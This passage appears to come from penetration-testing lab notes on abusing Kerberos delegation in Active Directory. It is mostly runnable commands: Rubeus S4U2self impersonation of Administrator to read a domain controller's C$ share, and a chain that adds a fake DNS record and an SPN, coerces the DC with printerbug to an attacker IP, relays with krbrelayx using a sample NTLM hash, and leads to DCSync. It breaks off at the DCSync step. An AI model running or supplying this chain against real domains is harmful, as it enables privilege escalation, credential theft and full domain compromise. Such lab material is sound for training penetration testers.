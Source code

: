 Using S4U2self for non-DC's

If target is a non-DC we can use S4U2self to obtain service ticket on behalf of any user. CIFS will enable SMB connections.

```powershell
.\Rubeus.exe s4u /self /nowrap /impersonateuser:Administrator /altservice:CIFS/dc01.zencorp.local /ptt /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCB<SNIP>

# Dir or read file
ls \\dc01.zencorp.local\c$
more \\DC01\Shares\Marketing\flag.txt
```

### <mark style="color:yellow;">Unconstrained Delegation - Users</mark>

Needs account with TRUSTED\_FOR\_DELEGATION and GenericWrite to update SPN list.

```powershell
# Look for users with TRUSTED_FOR_DELEGATION
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```

1. Create a Fake DNS Record

```bash
# krbrelayx
git clone -q https://github.com/dirkjanm/krbrelayx; cd krbrelayx

# Create fake record
python dnstool.py -u ZENCORP.LOCAL\\john -p p4ssw0rd -r fakepc.ZENCORP.LOCAL -d attackerIP --action add targetIP

# Verify record
nslookup fakepc.zencorp.local dc01.zencorp.local
```

2. Add SPN

```bash
# Add SPN
python addspn.py -u ZENCORP.local\\john -p p4ssw0rd --target-type samname -t sqldev -s CIFS/fakepc.ZENCORP.local dc01.ZENCORP.local
```

3. Listen with krbrelay and let printerbug let DC01 authenticate to our machine.

```bash
# Decrypt ticket
sudo python krbrelayx.py -hashes :cf3a5525ee9414229e66279623ed5c58 -t dc01.inlanefreight.local

# Printerbug
python3 printerbug.py inlanefreight.local/carole.rose:jasmine@attackerIP roguecomputer.inlanefreight.local
```

4. Use TGT to DCSync
